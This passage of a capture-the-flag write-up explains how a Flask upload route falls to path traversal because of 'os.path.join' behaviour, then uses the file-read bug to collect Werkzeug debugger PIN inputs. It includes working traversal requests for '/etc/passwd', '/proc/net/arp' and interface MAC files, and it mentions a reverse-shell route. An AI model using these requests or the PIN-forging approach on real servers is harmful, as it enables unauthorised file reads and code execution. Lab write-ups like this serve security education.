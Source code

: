 It took me quite a while to understand why this worked. The `recursive_replace` function was removing the `../` from the passed path, so it was becoming `/etc/passwd`. Witch should not work if appended to `/app/public/uploads/`. After [some research](https://blog.sonarsource.com/10-unknown-security-pitfalls-for-python/), I found that `os.path.join` ignore any previous part if a part starts by a `/`. So if `path` is `/etc/passwd`, then the call `os.path.join(os.getcwd(), "public", "uploads", path)` will only return the value of `path`.


## Getting the PIN 

I should probably have used the path traversal bug to rewrite one of the Python file and get a reverse shell. But instead, I tried to get the PIN for the Werkzeug Debugger console. I found [a post on HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) that explained how to generate it, but it didn't work. The version of Flask was different, so there were probably small differences in how the PIN was generated. 

To generate the PIN, I used the LFI to extract some information for the server. 

First, I needed the code that is used by Flask to generate the PIN.

```http
GET /uploads/..//usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://target.htb/upcloud
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 01 Jun 2022 23:13:10 GMT
If-None-Match: "1654125190.8242395-12-2550991558"
```

I took this file and simplified it, keeping only code needed to generate the PIN. Then I extracted the other values I needed. 

To get the MAC address, I had to find the interface that was used. 

```http
GET /uploads/..//..//..//..//proc/net/arp HTTP/1.1
Host: target.htb
...
```

```
IP address       HW type     Flags       HW address            Mask     Device
172.17.0.1       0x1         0x2         02:42:7e:78:0f:46     *        eth0
```

Then I could get the MAC for this interface. 

```http
GET /uploads/..//sys/class/net/eth0/address HTTP/1.1
```

```
02:42:ac:11:00:09
```
